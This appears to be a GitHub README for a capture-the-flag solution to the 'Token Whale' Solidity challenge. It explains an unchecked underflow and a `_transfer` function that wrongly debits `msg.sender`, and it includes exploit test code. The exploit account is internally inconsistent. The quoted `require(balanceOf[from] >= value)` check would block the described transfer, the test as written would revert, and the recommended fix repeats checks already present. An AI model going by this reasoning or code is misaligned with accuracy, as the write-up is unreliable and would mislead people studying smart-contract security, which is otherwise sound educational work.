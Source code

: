 # Explode Token Whale Challenge

## Overview

This repository contains the solution for the **Token Whale Challenge**, which focuses on exploiting vulnerabilities in a poorly implemented ERC20-like token contract (`TokenWhaleChallenge`) to manipulate balances and bypass restrictions. The objective is to accumulate at least **1,000,000 tokens** using any method that leverages the vulnerabilities in the contract.

---

## Key Vulnerabilities

### 1. **Arithmetic Overflow/Underflow**

The contract is written in **Solidity 0.4.25**, which lacks built-in checks for arithmetic overflow and underflow. This enables malicious actors to manipulate balances by exploiting these behaviors. For example:

- If `balanceOf[msg.sender] < value`, subtracting `value` results in a **wrap-around underflow** (`uint256` will become `2^256 - (value - balance)`).
- This underflow allows the balance to be artificially inflated to astronomically high values.

---

### 2. **Improper Use of `msg.sender` in `_transfer`**

The `_transfer` function uses `msg.sender` instead of `from` to reduce the sender's balance. This is a critical flaw:

```solidity
function _transfer(address to, uint256 value) internal {
    balanceOf[msg.sender] -= value;
    balanceOf[to] += value;

    emit Transfer(msg.sender, to, value);
}
```

- When `_transfer` is called from `transferFrom`, `msg.sender` is the caller (e.g., `SetupContract`) rather than the actual `from` address (`Bob` in this case).
- This allows any account to manipulate balances by acting as `msg.sender`, without actually deducting tokens from the intended sender.

---

### 3. **Lack of Comprehensive Balance Checks**

The contract only includes the following checks in `transfer` and `transferFrom`:

```solidity
require(balanceOf[from] >= value);
require(balanceOf[to] + value >= balanceOf[to]);
```

- There is no additional validation to ensure that balances remain consistent or that tokens are not created out of thin air.
- Combined with the use of `msg.sender` in `_transfer`, this opens the door to multiple exploits, including manipulating balances during swaps or transfers.

---

### Exploit Strategy

#### Goal:

Exploit the above vulnerabilities to artificially inflate the `PLAYER` account's balance to exceed `1,000,000 tokens`.

#### Steps:

1. **Initial Setup:**

   - Deploy the `SetupContract` to initialize the testing environment.
   - Transfer a small portion of tokens (`500 tokens`) from `PLAYER` to `Bob`.

2. **Trigger Underflow:**

   - Use `transferFrom` to transfer more tokens than `Bob` actually has.
   - The `allowance` mechanism ensures the contract doesn’t block the transaction.
   - The balance underflow causes the `PLAYER` account’s balance to become astronomically large due to the `uint256` wrap-around.

3. **Verify Completion:**
   - After the underflow manipulation, check the `isComplete()` function.
   - The `PLAYER` balance now exceeds `1,000,000 tokens`, meeting the challenge requirements.

---

### Key Exploit Code

#### Setup and Triggering the Exploit

```solidity
function test_underflowExploit() public {
    uint256 initialBalance = token.balanceOf(PLAYER);
    uint256 transferAmount = 1100; // More than the PLAYER balance to trigger underflow

    // Step 1: Transfer a portion of tokens to Bob
    token.transfer(address(bob), initialBalance - 100);

    // Step 2: Bob approves the SetupContract to spend tokens
    bob.approveForSender(transferAmount);

    // Step 3: TransferFrom triggers underflow
    token.transferFrom(address(bob), PLAYER, transferAmount);

    // Verify the exploit succeeded
    uint256 finalBalance = token.balanceOf(PLAYER);
    assert(finalBalance >= 1_000_000); // Condition met
}
```

---

## Lessons Learned

1. **Use Updated Solidity Versions:**

   - Always use a modern version of Solidity (`>= 0.8.0`) to benefit from built-in overflow/underflow checks.

2. **Validate All Transfers:**

   - Use comprehensive checks in `transfer` and `transferFrom` functions to ensure balances remain consistent.
   - Example:
     ```solidity
     require(balanceOf[from] >= value, "Insufficient balance");
     require(balanceOf[to] + value >= balanceOf[to], "Overflow detected");
     ```

3. **Correct Usage of Parameters:**

   - Always pass explicit `from` and `to` parameters to internal transfer functions like `_transfer`. Avoid relying on `msg.sender` for logic involving external interactions.

4. **Secure Allowance Mechanisms:**
   - Limit the potential for abuse by carefully managing `approve` and `allowance` mechanisms.

---

## Conclusion

The `TokenWhaleChallenge` demonstrates the importance of secure and robust smart contract development. Exploiting outdated Solidity versions and flawed logic, attackers can manipulate balances and bypass restrictions. The exploit highlights critical practices for secure smart contract design:

- Using modern compilers.
- Implementing robust arithmetic and balance checks.
- Explicitly passing parameters to avoid misuse of `msg.sender`.
